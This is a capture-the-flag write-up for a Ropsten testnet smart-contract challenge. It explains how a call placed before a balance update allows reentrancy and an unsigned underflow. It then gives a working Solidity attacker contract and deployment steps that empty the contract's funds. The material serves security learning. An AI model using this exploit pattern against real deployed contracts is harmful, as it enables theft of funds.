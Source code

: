 # Writeup - Velgørenhed (Blockchain - Underflow & Reentrancy)
## We are presented with a link to a website that deploys a contract on the Ropsten testnet. We are given the source code to the smart contract and a contract address. Our goal is to empty the contract for funds.
![CTF objective](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213040.png)
![Source code](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213051.png)
We are first going to take a look at the smart contract to look for any potential vulnerabilities. When looking through the smart contract (We can also just use a tool like [slither](https://github.com/crytic/slither) to analyze the contract for us).
The function donateToContract has our interest.
```javascript
   function donateToContract(uint amount) public payable{
        require(amount <= donatorBalance[msg.sender], 'Insufficient balance');
        require(!donatedToContract[msg.sender], 'Can only donate to contract once!');
        donatedToContract[msg.sender]=true;
        charityBalance[address(this)] += amount;
        msg.sender.call{value: 0}("Thanks for your donation.");
        donatorBalance[msg.sender] -= amount;        
   }
```

The interesting part about this function is the two last lines. The function does a call before changing the donatorBalance variable. The solidity code is run synchronously, so the next line of code wont run untill the line before has fully executed. This can be exploited because we can setup a fallback function that runs when we receive the call from this function. We receive the call before our donator balance has changed. So in our fallback function we are able to run other functions in the smart contract before the donator balance is changed in the donateToContract function. If we execute the withdraw function before donator balance has been changed by donateToContract our donatorBalance will be 0 before donateToContract will subtract the amount. When we subtract something from 0 and we have an unsigned integer we will wrap around and create a underflow thus setting our donatorBalance to a very high value. 
Illustration:
![Illustration](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Illustration.png)

#### Execution
To execute the smart contract functions we are going to use [Ethereum remix](https://remix.ethereum.org/). We are going to create two files. An attack.sol file and a file named charity.sol. The charity file contains the source code of the smart contract. While the attack.sol is something we have to write ourselves.

##### Creating attack.sol
Looking onlien we can find examples of reentrancy attacks. If we modify these examples we can use them here. We create a attack function that first executes the deposit function to deposit 0.1 ether. When we have deposited the ether we can then execute the vulnurable donateToContract function. We then have a fallback function that runs right before the donatorBalance is changed giving us an opportunity to withdraw our 0.1 ether. This leaves the donatorBalance at 0 untill after our fallback function is done executing as the donateToContract function executes the last line of code subtracting 0.1 ether from our donatorBalance which is 0. This create a underflow as 0 - 0.1 would be a negative value thus wrapping the unsigned integer around giving us a large donatorBalance.
```javascript
pragma solidity 0.7.4;

import './charity.sol';

contract Attacker {
    Charity public charity;
    bool firstcall = true;
    
    constructor(address _etherBankAddress) {
        charity = Charity(_etherBankAddress);
    }
    
    function attack() public payable {
        firstcall = true;
        charity.deposit{ value: 1000000000000000 wei}();
        charity.donateToContract(1000000000000000 wei);
        charity.withdraw();
    }

    fallback() external payable {
        if(firstcall == true) {
            firstcall = false;
            charity.withdraw();
    }}
    
    function getBalance() public view returns(uint) {
        return address(this).balance;
    }
}
```

##### Withdraw
Now that our donatorBalance is a very high value we just use the withdraw function to withdraw. The withdraw function is set to withdraw all funds of the account even though we have a higher donatorBalance than the actual balance of the account.

##### Executing on the blockchain
To execute the attack function on the blockchain we need a wallet with Ropsten testnet ethereum. You can get testnet ethereum by using faucets on the internet. Then we are going to use metamask and connect it to ethereum remix by selecting injected web3. We then deploy our attack contract and execute the attack function with 0.1 ether. This will transact the attack on the Ropsten testnet and empty our contract.

#### Results
We have withdrawn the funds from the contract and we are left with an empty contract. This meets the goal set in the challenge. So we just go back and click on the button called "Check solved". This will give us our flag.
![Results](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213021.png)
